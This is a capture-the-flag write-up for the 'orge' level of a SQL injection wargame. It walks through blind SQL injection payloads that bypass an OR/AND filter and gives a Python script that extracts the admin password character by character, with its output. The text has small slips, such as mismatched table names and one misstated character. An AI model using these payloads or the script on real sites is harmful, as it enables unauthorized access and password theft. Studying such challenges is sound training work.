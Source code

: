 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 7
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/b4a2f5ed-77f8-4b4a-aaae-220bf30b6964)

We are provided with the SQL query:

```sql
SELECT id FROM prob_orge WHERE id='guest' AND pw='{$_GET[pw]}'
```

The code performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the message `Hello {$result[id]}`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


It also blocks the `OR` and `AND` characters. So we will haveto use their alternatives `||` and `&&` respectively.

In order to print out the flag, we need to first know the password. We have to perform a Blind SQL Injection.

### Blind SQL Injection

First we have to reveal the length of the flag.

If we provide the following URI:

```
?pw=' || id='admin' %26%26 length(pw)=1 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' || pw='' && length(pw)=1 -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' || pw='' && length(pw)=1

## Commented part:
'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/54dd9da3-f4bc-425a-99aa-719ad27b3fba)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.

That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI:

```
?pw=' || id='admin' %26%26 length(pw)=8 -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' || id='admin' && length(pw)=8 -- -''

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' || id='admin' && length(pw)=8

## Commented part:
'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/4239c4cf-ee50-4569-ba04-c53e6763f684)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.

That tells us that the length of the `pw` column is 8.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![Pasted image 20240610125927](https://github.com/Kunull/Write-ups/assets/110326359/1f746f94-b19a-4867-8868-f8396aa3e375)

If we provide the following URI:

```
?pw=' || id='admin' %26%26 substr(pw, 1, 1)='0' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' || id='admin' && substr(pw, 1, 1)='0' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' || id='admin' && substr(pw, 1, 1)='0'

## Commented part:
'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/e90ce2aa-7d48-46da-b082-bad77687875b)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.

That tells us that the first character of the `pw` for `id=admin` is not `0`.

We can try other characters moving up to the following:

```
?pw=' || id='admin' %26%26 substr(pw, 1, 1)='7' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' || id='admin' && substr(pw, 1, 1)='7' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' || id='admin' && substr(pw, 1, 1)='7'

## Commented part:
'
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/6cb53029-51de-43bd-9456-d62d95321eca)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.

That tells us that the first character of the `pw` for `id=admin` is `0`.

We can move onto the next characters:

```
?pw=' || id='admin' %26%26 substr(pw, 2, 1)='0' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' || id='admin' && substr(pw, 2, 1)='0' -- -'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' || id='admin' && substr(pw, 2, 1)='0'

## Commented part:
'
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/57096134-2e7f-4417-a442-d2cd1c2ad761)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.

That tells us that the second character of the `pw` for `id=admin` is not `0`.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
7b751aec
```

Now, we can provide password URI:

```
?pw=7b751aec
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='7b751aec'
```


## Script

We can automate the entire process using a script.

```py title="orge_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'jeae4igtrh2cq92r63ob4kqmqr'}
url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php"
password_length = 0

for x in range(0, 10):
  payload = f"' || id='admin' && length(pw)={x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Password length: {password_length}")
print()

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' || id='admin' && substr(pw, {index}, 1)='{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "Hello admin" in response.text:
      password += char
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted Password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\orge_script.py

[!] Payload: ?pw=' || id='admin' && length(pw)=8 -- -
[!] Password length: 8

[+] Payload: ?pw=' || id='admin' && substr(pw, 1, 1)='7' -- -
[+] Character at index 1: 7
[+] Payload: ?pw=' || id='admin' && substr(pw, 2, 1)='b' -- -
[+] Character at index 2: b
[+] Payload: ?pw=' || id='admin' && substr(pw, 3, 1)='7' -- -
[+] Character at index 3: 7
[+] Payload: ?pw=' || id='admin' && substr(pw, 4, 1)='5' -- -
[+] Character at index 4: 5
[+] Payload: ?pw=' || id='admin' && substr(pw, 5, 1)='1' -- -
[+] Character at index 5: 1
[+] Payload: ?pw=' || id='admin' && substr(pw, 6, 1)='a' -- -
[+] Character at index 6: a
[+] Payload: ?pw=' || id='admin' && substr(pw, 7, 1)='e' -- -
[+] Character at index 7: e
[+] Payload: ?pw=' || id='admin' && substr(pw, 8, 1)='c' -- -
[+] Character at index 8: c     

[!] Extracted Password: 7b751aec
[!] Final payload: ?pw=7b751aec 
```
